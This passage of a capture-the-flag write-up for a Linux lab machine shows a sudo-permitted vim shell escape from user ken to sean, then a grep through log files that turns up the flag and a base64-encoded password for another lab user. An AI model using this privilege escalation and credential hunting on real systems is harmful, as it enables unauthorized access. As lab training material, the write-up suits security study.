 **sudo -l**
```
ken@linuxagency:~$ sudo -l
sudo -l
Matching Defaults entries for ken on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ken may run the following commands on linuxagency:
    (sean) NOPASSWD: /usr/bin/vim
```

[GTFOBINS](https://gtfobins.github.io/gtfobins/vim/#shell)
```
ken@linuxagency:~$ sudo -u sean vim -c ':!/bin/bash'
sudo -u sean vim -c ':!/bin/bash'

E558: Terminal entry not found in terminfo
'unknown' not known. Available builtin terminals are:
    builtin_amiga
    builtin_beos-ansi
    builtin_ansi
    builtin_pcansi
    builtin_win32
    builtin_vt320
    builtin_vt52
    builtin_xterm
    builtin_iris-ansi
    builtin_debug
    builtin_dumb
defaulting to 'ansi'

:!/bin/bash
sean@linuxagency:/home/ken$ whoami
whoami
sean
```

We don't find something in **sean** home
```
sean@linuxagency:~$ ls -la
ls -la
total 36
drwxr-x---  2 sean sean 4096 Dec  5 17:23 .
drwxr-xr-x 45 root root 4096 Jan 12  2021 ..
lrwxrwxrwx  1 sean sean    9 Jan 12  2021 .bash_history -> /dev/null
-rw-r--r--  1 sean sean  220 Jan 12  2021 .bash_logout
-rw-r--r--  1 sean sean 3771 Jan 12  2021 .bashrc
-rw-r--r--  1 sean sean 8980 Jan 12  2021 examples.desktop
-rw-r--r--  1 sean sean  807 Jan 12  2021 .profile
-rw-------  1 sean sean  582 Dec  5 17:23 .viminfo
```
We xcan try to find the flag by checking the file system
```
sean@linuxagency:~$ grep -rn "sean{" /var/log 2>/dev/null
grep -rn "sean{" /var/log 2>/dev/null
/var/log/syslog.bak:98675:Jan 12 02:58:58 ubuntu kernel: [    0.000000] ACPI: LAPIC_NMI (acpi_id[0x6d] high edge lint[0x1]) : sean{4c5685f4db7966a43cf8e95859801281} VGhlIHBhc3N3b3JkIG9mIHBlbmVsb3BlIGlzIHAzbmVsb3BlCg==
```
